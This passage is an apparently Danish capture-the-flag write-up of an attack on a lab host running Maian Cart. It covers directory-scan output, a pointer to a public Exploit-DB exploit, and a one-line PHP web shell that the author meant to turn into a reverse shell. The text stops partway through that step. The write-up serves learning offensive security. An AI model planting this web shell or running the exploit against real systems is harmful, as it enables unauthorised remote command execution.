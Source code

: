 ---- Entering directory: http://forretningen.hkn/content/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://forretningen.hkn/control/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://forretningen.hkn/docs/ ----
==> DIRECTORY: http://forretningen.hkn/docs/content/                           
==> DIRECTORY: http://forretningen.hkn/docs/examples/                          
+ http://forretningen.hkn/docs/favicon.ico (CODE:200|SIZE:1150)                
+ http://forretningen.hkn/docs/index.html (CODE:200|SIZE:7298)                 
                                                                               
---- Entering directory: http://forretningen.hkn/logs/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://forretningen.hkn/admin/attachments/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://forretningen.hkn/admin/control/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://forretningen.hkn/admin/import/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://forretningen.hkn/admin/templates/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://forretningen.hkn/docs/content/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://forretningen.hkn/docs/examples/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
```

Efter at have kigget rundt i de forskellige directories fandt jeg en interessant side under /docs:

![docs](docs.png)

Så frameworket der bliver brugt her er Maian Cart.

Efter let eftersøgning fandt jeg følgende exploit til dette framework: https://www.exploit-db.com/exploits/50394

### Foothold
Kørsel af exploit giver en "shell" men denne shell er egentlig bare en kommando vi sender til en php fil der kører ```system(kommando)```.

Eksempel på kørsel og at vi ikke kan lave f.eks. cd kan ses her:
![first exploit run](exploitstage1.png)

Vi er derved nødt til at lave en rigtig reverse shell, for at vi kan lave privilege escalation og har fuld kontrol over systemet.

Jeg valgte at modificere den originale payload, så vi istedet for at uploade en php fil der ser sådan her ud:
```php
<?php system($_GET["cmd"]) ?>"
```
